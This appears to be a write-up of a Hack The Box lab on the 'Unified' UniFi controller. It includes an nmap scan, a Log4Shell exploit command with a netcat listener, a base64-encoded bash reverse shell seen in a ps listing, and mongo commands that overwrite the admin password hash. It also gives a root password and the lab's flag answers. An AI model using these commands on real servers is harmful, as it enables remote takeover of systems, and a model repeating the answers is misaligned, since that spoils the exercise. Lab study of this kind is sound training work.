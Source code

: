 First scan the target using nmap:
`sudo nmap -sC -sS 10.129.229.171 -oA unified`

```txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-15 03:06 EDT
Nmap scan report for 10.129.229.171
Host is up (0.29s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to https://10.129.229.171:8443/manage
8443/tcp open  https-alt
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24

Nmap done: 1 IP address (1 host up) scanned in 21.50 seconds
```

From nmap result, we get the following answers:
1 Ans: 22,6789,8080,8443
2 Ans: UniFi Network

As we did not get any version of the software running on port 8443 from nmap, let's try to visit the URL to check if we can find anything.

We visited http://10.129.117.238:8443/ and got the following error:
```txt
Bad Request
This combination of host and port requires TLS.
```

After googling the issue, we found out that we need to use `https` to visit our site. After trying to visit https://10.129.117.238:8443/ we found the following page:

![[Pasted image 20220715181140.png]]
We can see the version here.

3 Ans: 6.4.54

After googling the CVE for unifi with this version, we found out the CVE no.

4 Ans: CVE-2021-44228

We can also google the answers for question 5, 6 and 7

5 Ans: ldap
6 Ans: tcpdump
7 Ans: 389

Now to see all the process running on the server, we need to set a reverse-tcp shell into that server. As we know the server is vulnerable for CVE-2021-44228, let's try to exploit it by following the guideline mentioned here: https://github.com/puzzlepeaches/Log4jUnifi

Commands:
`sudo nc -lnvp 4445`
`python3 exploit.py -u https://10.129.117.238:8443 -i 10.10.15.15 -p 4445`

After successul reverse-tcp connection, let's try to find the user flag by using the following commands:
`cd /`
`find . -type f -name user.txt 2>/dev/null`

We found the flag in ./home/michael/user.txt fiel. lets cat and get the flag:
`cat ./home/michael/user.txt`

Ans 13: 6ced1a6a89e666c0620cdb10262ba127

lets find all the processes running by running the following command:
`ps aux`
```txt
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
unifi          1  0.0  0.0   1080     4 ?        Ss   12:56   0:00 /sbin/docker-init -- /usr/local/bin/docker-entrypoint.sh unifi
unifi          7  0.0  0.1  18512  3072 ?        S    12:56   0:00 bash /usr/local/bin/docker-entrypoint.sh unifi
unifi         17  1.2 26.2 3671536 533392 ?      Sl   12:56   0:54 java -Dunifi.datadir=/unifi/data -Dunifi.logdir=/unifi/log -Dunifi.rundir=/var/run/unifi -Xmx1024M -Djava.awt.headless=true -Dfile.encoding=UTF-8 -jar /usr/lib/unifi/lib/ace.jar start
unifi         67  0.4  4.1 1100676 84768 ?       Sl   12:57   0:19 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
unifi       1821  0.0  0.1  18380  2944 ?        S    13:59   0:00 bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMTUvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}
unifi       1825  0.0  0.1  18512  3308 ?        S    13:59   0:00 bash -i
unifi       1828  0.0  0.1  18380  3124 ?        S    13:59   0:00 bash
unifi       1930  0.0  0.1  18512  3476 ?        S    14:02   0:00 bash -i
unifi       2085  0.0  0.1  34408  2748 ?        R    14:07   0:00 ps aux
```

As we can see, mongo db service is running on port 27117
Ans 8: 27117

To make the shell more interactive, we used the following command:
`export TERM=xterm`

As we know the mongo server is running locally (as we saw nmap did not find 27117 port open), we tried to connect to the db locally as we have the local shell. Command:
`mongo --port 27117`

After successfully connecting, we can now list all the databases by using the following command:
`show dbs`

For to enermurate all the users, we need to use `db.admin.find()` command (found in google).
Ans 9: db.admin.find()

For to update the user, we need to use `db.admin.update()` command (found in google).
Ans 10: db.admin.update()

Now as we cannot crack the hash if the admin, let's try to update the DB with our own password. Guidelines can be found here:
https://stackoverflow.com/questions/67310229/unifi-contoller-password-reset

`mkpasswd --method=sha-512 --salt=9Ter1EZ9$lSt6 admin`
`$6$9Ter1EZ9$ahgHttZMiCttwnsGD4xRCGzC/CHUlveQZmnKUfumqCU8BTro8hcT/jOZq0EwKNKoNCgh5wvu3ZBlwWqxFg1uA1`

`db.admin.update({ "_id" : ObjectId("61ce278f46e0fb0012d47ee4")},{$set: {"x_shadow" : "$6$9Ter1EZ9$ahgHttZMiCttwnsGD4xRCGzC/CHUlveQZmnKUfumqCU8BTro8hcT/jOZq0EwKNKoNCgh5wvu3ZBlwWqxFg1uA1"}})`

As we've updated the password, let's try to login from the web and go through the pages to find anything interesting.

After going through the pages for a while, we found the SSH login username and password:
![[Pasted image 20220715213510.png]]

Ans 12: NotACrackablePassword4U2022

Now just log in via ssh as root and grab the flag:
ssh root@10.129.117.238
cat root.txt

Ans 14: e50bc93c75b634e4b272d2f771c33681